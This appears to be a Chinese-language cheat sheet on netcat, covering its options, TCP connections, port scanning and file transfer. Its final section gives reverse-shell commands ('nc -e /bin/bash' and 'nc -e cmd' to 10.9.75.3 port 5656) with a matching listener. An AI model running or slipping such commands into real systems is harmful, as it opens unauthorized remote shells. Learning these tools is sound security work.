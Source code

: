 ### nc 瑞士军刀

```bash
语　　法：nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
		  [-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
参　　数：
  -g<网关>         设置路由器跃程通信网关，最多可设置8个。
  -G<指向器数目>   设置来源路由指向器，其数值为4的倍数。
  -h               在线帮助。
  -i<延迟秒数>     设置时间间隔，以便传送信息及扫描通信端口。
  -l               监听模式，用于入站连接 (监听本地端口)。
  -n               直接使用IP地址，而不通过域名服务器。
  -o<输出文件>     指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
  -p<通信端口>     设置本地主机使用的通信端口。
  -r               随机指定本地与远端主机的通信端口。
  -s<来源位址>     设置本地主机送出数据包的IP地址。
  -u               使用UDP传输协议。
  -v               显示指令执行过程。
  -w<超时秒数>     设置等待连线的时间。
  -z               使用0输入/输出模式，只在扫描通信端口时使用。
```

nc，全称netcat，是一个常用的网络工具，可以用于连接网络套接字（socket）并发送和接收数据。nc可以作为调试和测试的工具，也可以用于网络安全评估和攻击等方向

**1. 建立连接**
使用nc建立一个TCP连接非常简单。假设我们要连接192.168.0.1的80端口，可以执行以下命令：

```undefined
nc 192.168.0.1 80
```

如果连接成功，nc将显示"Connected to 192.168.0.1 port 80"提示信息。此时可以在终端中输入和接收HTTP请求（或者其他协议）。
**2. 端口扫描**
nc可以用于执行端口扫描，以便检查指定的主机是否开放了特定的端口。例如，检查192.168.0.1是否了22端口和80端口，可以执行以下命令：

```undefined
nc -z 192.168.0.1 22 80
```

如果端口被开放，则nc将显示"succeeded!"提示信息。如果端口被关闭，则nc将显示"Connection refused"或者"Connection timed out"信息。
**3. 文件传输**
通过nc可以非常容易地在不同主机之间传输文件。例如，将本地文件test.tar.gz发送到192.168.0.2的8888端口，可以执行以下命令：

```yaml
nc -v -n 192.168.0.2 8888 < test.tar.gz
```

然后，在**接收方运行以下命令接收传输的文件**：

```yaml
nc -v -n -l 8888 > test.tar.gz
```

其中：

- **-v：开启详细描述**
- **-l：指定nc在哪个端口监听**
- **-n：禁用DNS方向解析**
- **-w：使用等待连线的时间**

**4.反弹shell**

```
#发送
nc -e cmd 10.9.75.3 5656
nc -e /bin/bash 10.9.75.3 5656

#接收
nc -lvvp 5656
```


